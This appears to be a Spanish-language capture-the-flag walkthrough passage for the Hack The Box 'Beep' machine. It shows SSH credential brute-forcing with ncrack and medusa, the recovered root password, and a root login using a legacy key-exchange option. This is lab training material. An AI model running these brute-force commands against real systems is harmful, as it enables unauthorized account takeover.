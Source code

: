 Ncrack también es una opción:

```shell
❯ ncrack -p 22 -U htb/box/Beep/users.txt -P passwords.txt 10.10.10.7 -T 5

Starting Ncrack 0.7 ( http://ncrack.org ) at 2021-12-22 18:41 EST

Discovered credentials for ssh on 10.10.10.7 22/tcp:
10.10.10.7 22/tcp ssh: 'root' 'jEhdIekWmdjE'

Ncrack done: 1 service scanned in 42.01 seconds.

Ncrack finished.
```

Oh, medusa también lo es:

```shell
❯ medusa -h 10.10.10.7 -U htb/box/Beep/users.txt -P passwords.txt -M ssh 10.10.10.7
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [ssh] Host: 10.10.10.7 (1 of 1, 0 complete) User: root (1 of 6, 0 complete) Password: amp109 (1 of 4 complete)
ACCOUNT CHECK: [ssh] Host: 10.10.10.7 (1 of 1, 0 complete) User: root (1 of 6, 0 complete) Password: jEhdIekWmdjE (2 of 4 complete)
ACCOUNT FOUND: [ssh] Host: 10.10.10.7 User: root Password: jEhdIekWmdjE [SUCCESS]
```

Vale, ya está bien... ¡para!

Una vez dicho esto, sólo tienes que entrar en ssh con esas credenciales válidas:

> Username: root
> Pasword: jEhdIekWmdjE

Pero oh no... podrías tener un problema de algoritmo de intercambio de claves:

```shell
❯ ssh root@10.10.10.7
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```

Puedes solucionarlo fácilmente, especificando uno de los algoritmos que ofrecen e iniciando sesión como root:

```shell
❯ ssh -oKexAlgorithms=diffie-hellman-group-exchange-sha1 root@10.10.10.7
The authenticity of host '10.10.10.7 (10.10.10.7)' can't be established.
RSA key fingerprint is SHA256:Ip2MswIVDX1AIEPoLiHsMFfdg1pEJ0XXD5nFEjki/hI.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.7' (RSA) to the list of known hosts.
root@10.10.10.7's password:
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
[root@beep ~]# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
```